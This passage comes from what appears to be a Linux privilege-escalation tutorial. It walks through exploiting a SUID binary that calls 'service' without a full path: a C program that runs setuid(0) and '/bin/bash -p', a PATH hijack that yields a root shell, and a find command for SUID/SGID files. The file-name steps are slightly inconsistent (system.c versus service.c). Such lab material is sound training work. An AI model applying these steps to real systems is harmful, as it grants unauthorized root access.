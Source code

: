 ![](../../../.gitbook/assets/soi5.png)

Optionally, we can also verify with ltrace:

#### `ltrace /usr/local/bin/suid-env 2>&1 | grep service`

![](../../../.gitbook/assets/soi6.png)

This reveals that the system function is being used to execute the service program

Create a file system.c with the following contents:

#### `int main() {  setuid(0);  system("/bin/bash -p");  }`

Compile service.c into a file called service:

#### `gcc -o service service.c`

Prepend the current directory \(or where the new service executable is located\) to the PATH variable, and execute the SUID file for a root shell:

#### `PATH=.:$PATH /usr/local/bin/suid-env`

![](../../../.gitbook/assets/soi7.png)

## Abusing Shell Features

#### In some shells \(notably Bash &lt;4.2-048\) it is possible to define user functions with an absolute path name. These functions can be exported so that sub processes have access to them, and the functions can take precedence over the actual executable being called.

Find SUID/SGID files on the target:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
